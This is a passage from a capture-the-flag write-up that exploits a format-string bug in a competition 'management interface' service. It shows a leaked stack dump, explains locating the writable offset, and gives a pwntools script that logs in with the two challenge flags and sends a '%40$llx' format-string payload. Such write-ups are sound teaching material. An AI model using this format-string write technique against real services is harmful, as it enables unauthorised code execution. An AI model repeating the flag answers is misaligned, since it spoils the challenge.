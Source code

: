 ```console
>
 AAAABBBB1=41414ac3 2=4 3=3 4=663ff740 5=2 6=0 7=0 8=0 9=0 10=0 11=0 12=0 13=0 14=0 15=0 16=74464f73 17=d5c2007d 18=0 19=0 20=0 21=0 22=0 23=0 24=6593c780 25=655eebff 26=6593b620 27=1 28=6593b6a3 29=d5c26d70 30=0 31=655f0409 32=d 33=6593b620 34=a 35=41414b86 36=d5c26d70 37=655f081b 38=6f686365 39=42424241 40=20782431 41=33207824 42=3d342078 43=253d3520 44=36253d36 45=2437253d 46=78243825 47=20782439 48=78243031 49=24313125
>
[*] Closed connection to mngmnt-iface.ctfcompetition.com port 1337
```

If we look closely at the format string buffer output we will see that around the 39th iteration is where our data is written to - since `39=42424241` is the same as `39=BBBA`.

Knowing this we can start crafting our exploit. Notice that I insert `A` followed by `%40$llx`. The `A` character will be replaced with 1 later as this is the data we want to write (to make the shell function true). I used `ll` with the `%x` function because since this a 64-bit binary I need to use a `long-long` suffix to make sure that I'm writing to the correct area.

The letters `ABCDEFGH` are simply place holders that will show me where I need to enter the memory address for the shell enable command.

The update python script should look like the following:

```python
#!/usr/bin/env python2
from pwn import *
from struct import pack

r = remote('mngmnt-iface.ctfcompetition.com',1337)
print r.recvuntil("3) Quit")

r.send("1\n\n")
print "1"
print r.recvuntil("password")
r.send("CTF{I_luv_buggy_sOFtware}\n")
print "CTF{I_luv_buggy_sOFtware}"

print r.recvuntil("password")
r.send("CTF{Two_PasSworDz_Better_th4n_1_k?}\n")
print "CTF{Two_PasSworDz_Better_th4n_1_k?}"
print r.recvuntil("Authenticated")
print r.recvuntil(">")

buff = "A%40$llxABCDEFGH"

r.send("echo %s\n" % buff)
print r.recvuntil(">")

r.send("quit\n")
r.send("3")
```

Once updated, let's go ahead and execute the script.
